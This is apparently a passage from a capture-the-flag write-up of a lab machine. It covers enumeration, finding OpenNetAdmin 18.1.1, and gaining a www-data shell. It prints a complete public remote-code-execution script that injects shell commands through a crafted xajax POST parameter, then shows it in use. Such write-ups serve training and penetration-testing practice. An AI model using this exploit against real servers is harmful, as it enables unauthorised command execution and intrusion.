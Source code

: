 It reveals a few dirs which are irelevant the one we are interested in is `/music`.

Navigating to music we check out everything on the website but we get a redirect to another site when we click on the `login` section on the site called `/ona`

This takes us to a site that we can see is running OpenNetAdmin which conveneiently has an exploit on exploit-db

We can see on the page that the version is `18.1.1` so we run `searchsploit` on this

```bash
kali@kali:~$ searchsploit OpenNetAdmin 18.1.1
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                        |  Path
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                                          | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                                                           | php/webapps/47691.sh
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We will attempt to use the .sh file for the exploit, This is the exploit:

```bash
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

We run it with `./exploit.sh http://10.10.10.171/ona/login.php` and get a shell as www-data!

```bash
kali@kali:~/boxes/openadmin$ ./exploit.sh http://10.10.10.171/ona/login.php
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins
$ cd local
$ ls
config
config_dnld.php
dcm.php
images
include
```